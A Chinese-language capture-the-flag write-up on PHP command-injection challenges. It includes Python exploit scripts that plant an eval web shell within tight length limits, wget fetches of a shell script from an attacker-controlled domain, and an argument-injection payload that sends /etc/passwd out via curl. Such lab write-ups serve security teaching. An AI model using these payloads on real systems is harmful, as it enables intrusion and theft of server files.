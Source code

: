### 任意命令writeup
---------  
linux 上任意命令执行,一般会用到下面几个字符 
```bash 
  `   |   ||   &   &&   .   ;   -   <>   $    %0a 
```
###  [exec1](./exec1.php)

用 %0a 来执行命令,只能适用于linux , 127.0.0.1%0awhoami

---------
### [exec2](./exec2.php) 当可输入的字符不够长时,这里包含分割符一共可输入13个字符 

1. 最短的shell是  ```<?`$_GET[c]` ```; 一共十四个字符 
所以,直接写shell,长度肯定是不够的
所以思路是先写命令到一个文件中,然后用 sh filename  执行脚本,获取shell  

```python 
#!/usr/bin/python 
#conding: -*-utf-8-*-   

# exp.py    

import requests as req 

url = "http://localhost/ctf/exec2.php"
for i in "echo '<?php @eval($_POST[1]);?>' > shell.php ":
    data = {"ip":"0.0.0.0;echo -n \\"+i+">>1"}
    res = req.post(url,data=data)
    # print data['ip']
    # print res.text 
print "[*] bash shell upload successful!"

data={"ip":"0.0.0.0;bash 1"}
res=req.post(url,data=data)

shell="http://127.0.0.1/ctf/shell.php"

res=req.get(shell)
if  res.status_code == 200:
    print "[*] get shell successful"

```
获取shell在shell.php 

2.  第二种获得shell的方法  

前提是你需要有一个比较短的域名,然后在服务器的根目录下写一个302跳转 

```php
 // index.php 

 <?php header("Location: ./1.sh") ?>
```

```bash
#1.sh 
echo '<?php @eval($_POST[1]);?>' > shell.php 
```
这两个文件放在同一个目录下,执行

```bash
ip=0.0.0.0;wget i.com 
ip=0.0.0.0;sh index.html  #刚好21个字符
```
然后就获取一个shell  

-------
### [exec3](./exec3.php) 
这是7个字符get shell的题目,[writeup在这里](http://wonderkun.cc/index.html/?p=524)

下面只写一个python的poc吧
```python
#!/usr/bin/python
#-*- coding: utf-8 -*- 
import requests 
def GetShell():
    url = "http://192.168.56.129/shell.php?1="
    fileNames = ["1.php","-O\ \\","cn\ \\","\ a.\\","wget\\"] 
    # linux创建中间有空格的文件名，需要转义，所以有请求"cn\ \\"
    # 可以修改hosts文件，让a.cn指向一个自己的服务器。
    # 在a.cn 的根目录下创建index.html ，内容是一个php shell 
    for fileName in fileNames:
        createFileUrl = url+">"+fileName
        print createFileUrl 
        requests.get(createFileUrl)
    getShUrl = url + "ls -t>1"
    print getShUrl
    requests.get(getShUrl)
    getShellUrl = url + "sh 1"
    print getShellUrl
    requests.get(getShellUrl)
    shellUrl = "http://192.168.56.129/1.php"
    response = requests.get(shellUrl)
    if response.status_code == 200:
        print "[*] Get shell !"
    else :
        print "[*] fail!"
if __name__ == "__main__":
    GetShell()
    
```

### [exec4](./exec4.php)

这是由错误的使用 escapeshellarg 和 escapeshellcmd 造成的参数注入：

```
$url = "http://127.0.0.1/' -F file=@/etc/passwd -x 127.0.0.1:9999"; 
```

经过 escapeshellarg 处理后变成为:

```
'http://127.0.0.1/'\'' -F file=@/etc/passwd -x 127.0.0.1:9999'
```

再用 escapeshellcmd 处理之后变换成为：
```
'http://127.0.0.1/'\\'' -F file=@/etc/passwd -x 127.0.0.1:9999\'
```
导致 -F 和 -x 参数逃逸出单引号,造成任意文件读取。

### [exec5](./exec5.php)

主要理解函数 escapeshellarg 到底是用来干什么的， 还有命令解释器是怎么识别选项和参数值的

参考:
[https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html](https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html)